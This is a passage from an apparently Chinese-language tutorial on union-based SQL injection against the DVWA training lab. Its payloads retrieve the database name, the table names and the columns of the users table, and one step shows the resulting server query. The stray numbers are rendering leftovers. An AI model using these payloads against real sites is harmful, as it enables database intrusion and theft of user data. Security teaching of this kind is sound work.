 ```sql
注入语句：
' union select 1,database() -- aaaa

查询语句：
mysql> SELECT first_name, last_name FROM users WHERE user_id = '' union select 1,database() -- aaaa'
12345
```

![在这里插入图片描述](72、sql注入/20200803122726560.png)
![在这里插入图片描述](72、sql注入/20200803122737243.png)
2）查看当前库的表名

```sql
'union select table_name, 1 from INFORMATION_SCHEMA.tables where TABLE_SCHEMA='dvwa' -- '
1
```

![在这里插入图片描述](72、sql注入/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NDAzMjIzMg==,size_16,color_FFFFFF,t_70-20201112153150766.png)
可以查看到当前库有哪些表，这里以users表为例

3）查看表中的字段

```sql
'union select table_name, COLUMN_NAME from INFORMATION_SCHEMA.columns where TABLE_SCHEMA='dvwa' and table_name='users' -- '
1
```
